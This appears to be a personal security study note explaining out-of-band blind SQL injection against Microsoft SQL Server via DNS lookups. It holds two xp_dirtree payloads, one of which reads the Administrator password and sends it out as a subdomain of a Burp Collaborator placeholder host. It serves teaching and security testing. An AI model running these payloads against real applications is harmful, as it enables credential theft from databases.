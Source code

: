 Some applications process their SQL query asynchronously, which means that the application process the user's request in the original thread, and uses another thread to execute a SQL query. So, using [time-delay SQL injection attack](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FSQL%20Injection%2FBlind%20SQL%20Injection%2FBlind%20SQLi%20by%20Triggering%20Time%20Delays) won't work in this scenario.

However, an attacker can still exploit a SQL injection vulnerability by triggering out-of-band network interactions to a system that they control. A variety of network protocols can be used for this attack, but typically the most effective is DNS, as most production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator), which allows you to detect when network interaction occurs. For example, using the following technique on an application running Microsoft SQL server, will cause a DNS query:
```txt
productId='; exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--
```
This will cause the database to perform a DNS lookup on your Burp Collaborator domain.

Additionally, you can use the following payload to use out-of-band channel to exfiltrate data:
```txt
productId=1'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')--
```
This will trigger a DNS lookup with the following results:
```txt
p@$$w0rd.BURP-COLLABORATOR-SUBDOMAIN
```